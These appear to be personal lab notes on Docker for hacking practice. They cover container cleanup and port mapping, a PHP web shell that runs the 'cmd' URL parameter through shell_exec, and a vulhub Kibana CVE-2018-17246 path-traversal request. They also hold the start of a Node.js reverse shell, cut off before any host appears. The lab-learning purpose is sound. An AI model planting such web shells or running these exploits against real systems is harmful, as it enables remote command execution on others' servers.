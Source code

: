 ```bash
docker rm <container id> --force
docker rm $(docker ps -a -q)

docker rm $(docker ps -a -q) --force

docker rmi <docker image ID>
docker rmi $(docker images -q)

```

## Port Forwarding
```bash
docker rmi $(docker images --filter "dangling=true" -q) #remove none images

docker run -dit -p 80:80 --name myWebServer webserver
docker port myWebServer

cd /var/www/html # dafult with apache

```

```php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>

```
- in url
```txt
http://localhost/cmd.php?cmd=ls -l
```

### monturas
```bash
docker run -dit -p 80:80 -v /home/edibauer/Desktop/h4ck/d0ck3r:/var/www/html --name myWebServer webserver



```
## Docker compose
github.com/vulhub/vulhub

```bash

git clone --no-checkout --depth 1 https://github.com/vulhub/vulhub.git kibana-cve && cd kibana-cve && git sparse-checkout set "kibana/CVE-2018-17246" && git checkout master # download a dir form an entire repo

docker-compose up -d # into the dir that contains docker conpse.yml
docker port cve-2018-17246_kibana_1

docker-compose exec kibana bash
curl -s -X GET "http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../tmp/reverse.js"

```
- Reverse shell
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
```